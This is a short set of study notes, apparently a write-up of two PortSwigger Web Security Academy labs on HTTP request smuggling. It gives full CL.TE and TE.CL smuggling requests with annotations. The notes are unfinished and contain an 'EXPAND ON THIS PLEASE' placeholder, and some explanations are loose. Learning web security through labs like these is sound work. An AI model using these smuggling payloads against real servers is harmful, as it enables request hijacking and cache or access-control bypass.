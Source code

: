 ### HTTP request smuggling, basic CL.TE vulnerability

In the home page request, change the request method to POST, and add the "Transfer-Encoding: chunked" header. 

After that, leave a space, put a 0 (to indicate the request termination based on the TE header), leave a space, and input the letter G, to smuggle it. 

Once you've done that, your request should look like this:
```text
POST / HTTP/1.1
Host: 0af200610381a197805cc27b00300017.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Referer: https://portswigger.net/
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
G
```

So, you are smuggling the letter G, and then the 2nd request will be the original POST, with the G appended. Resulting in a GPOST request method. 

---
### HTTP request smuggling, basic TE.CL vulnerability

In this case **EXPAND ON THIS PLEASE!!!!!**, as the server is paying attention to the TE header, you'll need to smuggle an entire GPOST request, and end that with a 0. Otherwise, you will smuggle something wrong. This should be the body, with the explanation:
```text
POST / HTTP/1.1
Host: 0a6a00dc0440ca538089e58800cf005a.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Referer: https://portswigger.net/
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 4     ---> This is getting the body of your first request.
Transfer-Encoding: chunked
\r\n
5c\r\n                ---> This line is 4 bytes long (5,c,\r,\n). Corresponding to the first CL of 4
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15    ---> Here you can specify whatever length you want, I think this is not important. Shouldn't be too long
\r\n
x=1\r\n
0\r\n                 ---> This \r\n 
\r\n                  ---> and this \r\n are NECESARY to specify the request is terminated there, so the TE header of the beginning knows here ends the request!!
```
